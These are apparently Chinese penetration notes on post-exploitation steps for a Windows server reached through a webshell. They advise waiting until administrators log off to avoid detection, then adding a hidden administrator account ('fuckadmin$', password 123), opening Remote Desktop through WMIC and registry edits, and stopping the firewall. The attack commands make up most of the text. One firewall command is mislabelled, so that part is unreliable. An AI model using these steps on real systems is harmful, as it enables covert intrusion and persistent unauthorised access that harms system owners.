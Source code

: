













#提权预处理



[TOC]






####执行命令查看在线用户





```

#执行命令,查看在线用户，如果有用户在线，就不要在做其他渗透了，防止被发现，等管理员下线之后再操作

query user

#发现管理员2015年11月27日登录之后没再登陆



```







 ![](./pic/queryuser.png)




#####常用的windows命令

```

ipconfig        #显示本地IP地址

whoami			#查看webshell权限

net user fuckadmin$ 123 /add    #添加用户fuckadmin$及密码为123的用户

net localgroup administrators fuckadmin$ /add  #添加fuckadmin$到管理员组

wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1    #一键开启远程桌面命令,需要administrator及以上

注册表开启3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

net stop sharedaccess   #关闭防火墙 

net stop sharedaccess   #开启防火墙







```



```
以下不是提权相关的，正常whoami一般服务器都有，如果你是服务器管理员如果没有whoami，那么安装之，或者*如果提权直接丢尽垃圾箱就能执行*


whoami的安装

1)下载文件whoami.exe 6.1.7600.16385文件到您的桌面上。

(2)将whoami.exe 6.1.7600.16385文件放到提示丢失的文件的程序目录下。

(3)如果第2步是行不通的。将文件whoami.exe 6.1.7600.16385到系统目录下

C:\Windows\System (Windows 95/98/Me)

C:\WINNT\System32 (Windows NT/2000)

C:\Windows\System32 (Windows XP, Vista)

C:\Windows\System32 (Windows 7/8/2008r2)

C:\Windows\SysWOW64 (Windows 7/8/2008r2)

```





####关于远程桌面端口的查看操作





#####第一种方法查看远程端口以及开远程桌面注册表命令



```

查看远程端口命令:



REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber



返回的为16进制



HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp

    PortNumber    REG_DWORD    0xd3d



#将0xd3d由16进制转为10进制为3389

```





```

开启远程桌面命令：



REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f



```







#####第二种方法查看远程桌面端口



```

#看看有没有TermService,有的话说明开启了远程桌面端口

tasklist /svc

#执行完之后PID:640知道了PID为640

```



  ![](./pic/tasklistsvc.png)



```

然后执行

netstat -ano

tcp   PID：640所对应的端口为3389

```


 ![](./pic/netstat-ano.png)




#####添加用户以及添加到管理员组以及远程桌面组（如果为管理员权限却登录不了远程桌面看这个）



```

#添加用户fuckadmin$及密码为123的用户

net user fuckadmin$ 123 /add

#添加fuckadmin$到管理员组

net localgroup administrators fuckadmin$ /add



#尝试一下远程桌面连接，如果连接不上，且远程桌面端口开放，那么把管理员添加到远程桌面组试一试

net localgroup "Remote Desktop Users" fuckadmin$ /add





```




